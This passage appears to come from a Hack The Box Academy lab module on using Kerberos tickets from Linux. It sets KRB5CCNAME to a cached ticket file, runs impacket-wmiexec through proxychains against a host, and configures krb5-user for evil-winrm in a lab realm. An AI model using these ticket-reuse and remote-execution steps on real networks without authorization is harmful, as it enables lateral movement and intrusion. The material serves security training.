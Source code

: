 **Setting the KRB5CCNAME Environment Variable**

```shell-session
$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

#### Impacket

**Using Impacket with proxychains and Kerberos Authentication**

```shell-session
$ proxychains impacket-wmiexec ms01 -k
```

#### Evil-Winrm

To use [evil-winrm](https://github.com/Hackplayers/evil-winrm) with Kerberos, we need to install the Kerberos package used for network authentication.(`krb5-user`)

**Installing Kerberos Authentication Package**

```shell-session
$ sudo apt-get install krb5-user -y

Reading package lists... Done                                                                                                  
Building dependency tree... Done    
Reading state information... Done

<SNIP>
```

**Default Kerberos Version 5 realm**

![text](https://academy.hackthebox.com/storage/modules/147/kerberos-realm.jpg)

The Kerberos servers can be empty.

**Administrative Server for your Kerberos Realm**

![text](https://academy.hackthebox.com/storage/modules/147/kerberos-server-dc01.jpg)

In case the package `krb5-user` is already installed, we need to change the configuration file `/etc/krb5.conf` to include the following values:

**Kerberos Configuration File for INLANEFREIGHT.HTB**

```shell-session
carbonlky@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```
